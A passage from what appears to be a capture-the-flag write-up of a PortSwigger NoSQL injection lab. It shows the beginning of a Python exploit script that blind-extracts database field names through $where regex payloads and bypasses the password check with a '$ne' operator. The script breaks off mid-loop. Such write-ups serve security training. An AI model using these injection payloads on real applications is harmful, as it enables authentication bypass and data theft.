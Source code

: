 > Note: The JavaScript `match()` function's regex can be `<found_character>.*`.

**But before we do that, let's generate a password reset token for user `carlos`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-4/images/Pasted%20image%2020231010135904.png)

**Next, to automate this process, I'll write a Python script:**
```python
import requests
from string import ascii_letters

class Exploit:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl

    def extractFieldNames(self, fieldPosition):
        LOGIN_ENDPOINT = '/login'
        LAST_CHARACTER = ascii_letters[-1]
        username = 'carlos'
        password = {
            '$ne': 'foobar'
        }
        fieldName = str()
        while True:
            for character in ascii_letters:
                payload = f'^{fieldName}{character}.*' if fieldName else f'^{character}.*'
                whereOperatorKey = f'Object.keys(this)[{fieldPosition}].match("{payload}")'
                print(f'[*] Sending payload: {whereOperatorKey}', end='\r')
```
